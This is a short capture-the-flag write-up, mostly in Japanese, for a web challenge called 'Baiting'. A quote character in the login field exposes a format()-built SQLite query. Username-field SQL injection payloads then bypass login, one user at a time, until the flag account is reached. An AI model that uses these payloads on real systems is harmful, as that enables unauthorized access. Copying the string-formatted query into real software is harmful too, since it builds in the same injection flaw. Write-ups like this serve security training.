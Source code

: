 # Baiting:Web:200pts
Challenge instance ready at 95.216.233.106:12952.  
That user list had a user called loginToGetFlag. Well, what are you waiting for?  

# Solution
アクセスするとログインフォームが見える。  
Login  
[site.png](../Entrypoint/site/site.png)  
ソースコードからは何も得られないのでログインを試す。  
`'`を入力すると以下のようなエラーが出た。  
```python
Traceback (most recent call last):
  File "/srv/raro/main.py", line 132, in index
    cur.execute("SELECT algo FROM users WHERE username='{}'".format(
sqlite3.OperationalError: unrecognized token: "'''"
```
usernameでSQLインジェクションを試みる。  
まずは基本である`' OR 't'='t`である。  
Welcome, xxslayer420  
[site1.png](../Admin_Attack/site/site.png)  
ではこれ以外のユーザーでのログインを試みる。  
ユーザー名がxxslayer420以外を指定する`' OR username!='xxslayer420`である。  
Welcome, jimmyTehAdmin  
[site2.png](../Admin_Attack/site/flag.png)  
さらにNGを追加していく。  
`' OR (username!='xxslayer420' AND username!='jimmyTehAdmin') --`
flag(Welcome, loginToGetFlag)  
[flag.png](site/flag.png)  
flagが出てきた。  

## ractf{injectingSQLLikeNobody'sBusiness}